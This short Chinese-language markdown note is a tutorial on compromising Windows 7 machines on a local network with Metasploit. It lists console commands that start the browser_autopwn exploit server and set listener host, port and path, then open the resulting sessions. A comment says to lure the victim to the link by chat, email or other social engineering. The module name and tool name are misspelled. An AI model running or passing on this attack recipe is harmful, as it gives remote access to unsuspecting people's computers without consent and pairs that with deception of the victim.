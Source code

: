 ## 使用Metaspolit在局域网中破解Windows 7

```bash
msfconsole
use auxiliary/server/brower_autopwn
options
set lhost 192.168.1.4
set port 4444
set uripath /
exploit
# 通过聊天或电子邮件或任何社会工程技术将服务器的链接发送给受害者。
sessions
```

[原文](https://www.hackingarticles.in/how-to-hack-windows-7-in-lan-using-metaspolit/)

